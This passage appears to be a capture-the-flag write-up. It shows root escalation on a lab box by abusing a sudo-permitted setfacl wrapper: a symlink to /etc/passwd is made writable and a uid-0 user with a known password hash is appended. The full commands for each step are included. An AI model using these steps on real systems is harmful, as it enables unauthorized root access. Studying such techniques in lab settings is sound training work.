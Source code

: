 The script tries to modify an ACL (Access Control List) of a file we choose in the `/home/mtz` directory.

---

**What is an ACL in Linux?**

*An ACL, or Access Control List, is a way to grant specific permissions to users or groups in a more individualized manner.*

*This is why it’s dangerous to let users input commands like setfacl. It could allow them to grant themselves read or write access to files they shouldn’t have access to.*

*You can learn more about ACLs and their usage [here](https://www.geeksforgeeks.org/linux-setfacl-command-with-example/).*

---

A way of escalating privileges could be setting write permission to a file like `/etc/passwd` and add a line of a "user" with a custom password and set `uid=0` and `gid=0`, but we can only modify the ACL in files located in `/home/mtz`.

However, this can be easily bypassed using a symbolic link located in the `/home/mtz` that points to the file we want to write on, in this case `/etc/passwd`.

```
ln -s /etc/passwd
```

Now we will set all the permissions for the user `mtz`.

```
sudo /opt/acl.sh mtz rwx /home/mtz/passwd
```

Now we should be able to write on the `/etc/passwd` file, so we will first make a hash in `md5` of the password "password123" to include in the user line.

```
openssl passwd password123
$1$9nU.5qrv$atbXblOUGwlYzzXrspYap1
```

Then we include in the `/etc/passwd` file a line of a user `rootwo` with same fields as `root` but with the recently created hashed password.

To make this line you will probably need the [/etc/passwd structure](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/).

```
echo 'rootwo:$1$9nU.5qrv$atbXblOUGwlYzzXrspYap1:0:0:root:/root:/bin/bash' >> /etc/passwd
```

Using the new user `rootwo`, we authenticate and gain root privileges.

```
su rootwo
Password: password123
```

Allowing us to read the `root` flag.
